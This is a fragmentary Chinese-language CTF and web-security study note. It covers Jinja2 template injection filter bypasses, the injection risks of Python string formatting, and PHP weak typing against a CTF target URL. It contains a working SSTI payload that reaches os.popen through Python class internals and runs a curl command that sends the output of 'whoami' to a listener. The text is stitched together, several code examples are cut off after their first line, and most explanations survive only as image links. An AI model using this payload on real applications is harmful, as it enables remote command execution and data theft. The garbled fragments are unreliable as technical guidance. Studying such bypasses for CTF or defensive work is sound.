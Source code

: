 绕过中括号+逗号

绕过双大括号

{% if ''.\_\_class\_\_.\_\_bases\_\_.\_\_getitem\_\_(0).\_\_subclasses\_\_().pop(250).\_\_init\_\_.\_\_globa ls\_\_.os.popen('curl http://127.0.0.1:7999/?i=\`whoami\`').read()=='p' %}1{% endif %}

python2下的盲注

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDmNjNxSZENzhVULicy8bSxD0ntSdYg7ZiaDWKLTNbFPsywQQXsYoicHCoQ%2F640%3Fwx_fmt%3Dpng)

Python Web之flask session

%操作符

    >>> name = 'Bob' 

第二种：string.Template

使用标准库中的模板字符串类进行字符串格式化。

    >>> name = 'Bob' 

第三种：调用format方法

python3后引入的新版格式化字符串写法，但是这种写法存在安全隐患。

存在安全隐患的事例代码：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibiaPycO1XfyibSWjXEhFNEibkgh88L0UCmE1CPpJ6YicdInRIWTukAahiaVLK5pVVd6SMbbSiaR5KuMlnw%2F640%3Fwx_fmt%3Dpng)

从上面的例子中，我们可以发现：如果用来格式化的字符串可以被控制，攻击者就可以通过注入特殊变量，带出敏感数据。

第四种:f-Strings

这是python3.6之后新增的一种格式化字符串方式，其功能十分强大，可以执行字符串中包含的python表达式，安全隐患可想而知。

    >>> a , b = 5 , 10 

* * *

CTF\-php

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibiaPycO1XfyibSWjXEhFNEibkGcX6lIDMM0jRfklfVknaXQuwNMVK2vAiagXvq7aAMg1LN00oCU0wnpg%2F640%3Fwx_fmt%3Dpng)

弱类型与强类型：

强类型指的是强制数据类型的语言，就是说，一个变量一旦被定义了某个类型，如果不经过强制类型转换，这个变量就一直是这个类型，在变量使用之前必须声明变量的类型和名称，且不经强制转换不允许两种不同类型的变量互相操作。我们称之为强类型，而弱类型可以随意转换变量的类型例如可以这样：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibiaPycO1XfyibSWjXEhFNEibkCFGEiapRsMqn9THvFaSSiby5Jbibz2rndibIfibGfymAZBJnulBVR4ofvqA%2F640%3Fwx_fmt%3Dpng)

靶场：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibiaPycO1XfyibSWjXEhFNEibk2uvtGOgTdvqZEt0j1wOMcXXMuiaLMnhBqgBQwYO7cCJfictuECwM5tiaw%2F640%3Fwx_fmt%3Dpng)

通过代码分析发现只要num和1相等便可以得到

flag.http://123.206.87.240:8002/get/index1.php/?num=1x

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibiaPycO1XfyibSWjXEhFNEibkibvXnic0yKc5mRFDLT0XjdOZicJ8UUA9N5amb4bQTUq66Jl69HjnVUjpA%2F640%3Fwx_fmt%3Dpng)
